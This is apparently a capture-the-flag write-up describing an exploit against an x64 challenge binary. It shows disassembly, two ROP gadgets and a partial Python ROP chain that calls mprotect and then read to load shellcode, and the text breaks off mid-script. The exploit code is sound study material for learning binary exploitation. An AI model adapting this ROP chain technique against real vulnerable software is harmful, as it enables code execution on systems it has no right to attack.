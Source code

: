 Gah! We need to exploit another binary! This one is the same C code, but compiled as x64 code... I transferred the binary over to my box and started poking it. 

The basic solution stays the same: mprotect, read, shellcode, flag. The problem with x64 is that we cannot pass the arguments to calls on the stack: that goes via registers. The two functions I needed are here:

```bash
   0x00000000004005f2 <+53>:    mov    edx,0x400
   0x00000000004005f7 <+58>:    mov    rsi,rax
   0x00000000004005fa <+61>:    mov    edi,0x0
   0x00000000004005ff <+66>:    mov    eax,0x0
   0x0000000000400604 <+71>:    call   0x400490 <read@plt>
   0x0000000000400609 <+76>:    mov    edx,0x1
   0x000000000040060e <+81>:    mov    esi,0x400
   0x0000000000400613 <+86>:    mov    edi,0x20000000
   0x0000000000400618 <+91>:    call   0x4004c0 <mprotect@plt>
```

I uploaded the binary to [ropshell.com](https://ropshell.com) and analyzed it to find the gadgets I'd need. I found `esi/rsi` and `edi/rdi` quickly, but `edx/rdx` was nowhere to be found. Finally, I located these two gadgets:

```
0x0040068a : pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
0x00400671 : mov edx, ebp; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
```

Prepare for some mind-bending ROP chains...

```python
#!/usr/bin/python

import struct
def p(x):
    return struct.pack("L", x)

payload = ""

'''
   #0x0040068a : pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
   #0x00400671 : mov edx, ebp; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
'''

# first, fix up stack   
payload += p(0x00400690)    # pop pop ret
payload += p(0x0)
payload += p(0x0)

#### MPROTECT
# gadgets to set edi, esi and edx and call mprotect
payload += p(0x0040068a)    # pop rbx; pop rbp; pop r12; pop r13; pop r14; pop r15; ret
payload += p(0x6)           # rbx   << needs to be ebp-1 for code path!
payload += p(0x7)           # rbp -> edx = mprotect.mask
payload += p(0x00601038-6*8)    # r12 -> mprotect@got.plt
payload += p(0x0)           # r13
payload += p(0x400)         # r14 -> rsi -> esi = mprotect.len
payload += p(0x20000000)    # r15 -> rdi -> edi = mprotect.addr

payload += p(0x00400671)    #mov edx, ebp; mov rsi, r14; mov edi, r15d; call [r12 + rbx*8]
payload += "B"*(200-144)    # spacer

#### READ
# gadgets to set edi, esi and edx and call read
'''
   0x00000000004005f2 <+53>:    mov    edx,0x400
   0x00000000004005f7 <+58>:    mov    rsi,rax
```